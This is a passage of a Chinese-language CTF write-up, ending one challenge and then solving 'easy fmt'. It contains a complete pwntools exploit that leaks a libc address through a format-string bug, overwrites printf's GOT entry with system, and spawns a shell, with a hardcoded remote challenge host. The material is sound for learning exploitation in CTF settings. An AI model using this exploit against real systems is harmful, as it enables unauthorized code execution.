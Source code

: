 ```python
p.sendline(payload)

p.interactive()
```
运行后获取`shell`
![[Pasted image 20241005215455.png]]
PS:两个payload构造的时候涉及的栈堆平衡还不是很懂，这里属于试错试出来的

### easy fmt
首先第一次遇到给ld-linux的题目，查了一下需要patchelf后把libc版本弄对
![[Pasted image 20241005215657.png]]
主要函数这里可以看出可以利用格式化字符串漏洞，用gdb调试一下
![[Pasted image 20241005215834.png]]
可以看到`canary`(这道题没用)和`__libc_start_main+128`
思路很明显，第一次，利用格式化字符串漏洞泄露`__libc_start_main`的地址后可以获取基址，从而获取`system`函数的地址，同时获取`printf`函数的got表地址；第二次，利用格式化字符串漏洞将`printf`函数换为`system`函数；第三次，输入`/bin/sh`，使`printf`函数实际执行`system`获取shell
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux')
context.log_level = 'debug'
local = True
if local:
    p = process('./ez_fmt')
    pwnlib.gdb.attach(p, 'b vuln')
else:
    p = remote('39.106.48.123', 28643)

libc = ELF('./libc.so.6')
elf = ELF('./ez_fmt')

offset = 8
payload = '%39$p'
p.recvuntil(b'data: \n')
p.sendline(payload)
receive = p.recvuntil(b'\n')
main_addr = int(receive, 16) - 128
log.info("main_addr: " + hex(main_addr))

printf_got = elf.got['printf']

base = main_addr - libc.symbols['__libc_start_main']
system_addr = base + libc.symbols['system']
log.info("system_addr: " + hex(system_addr))
print("printf_got: ", hex(printf_got))

payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size='int')
  
print("len_payload: ", len(payload))
print("fmtstr_payload: ", payload)

p.sendafter(b'data: \n', payload)

p.recvuntil(b'data: \n')
p.sendline(b'/bin/sh\x00')

p.interactive()
```
![[Pasted image 20241005220952.png]]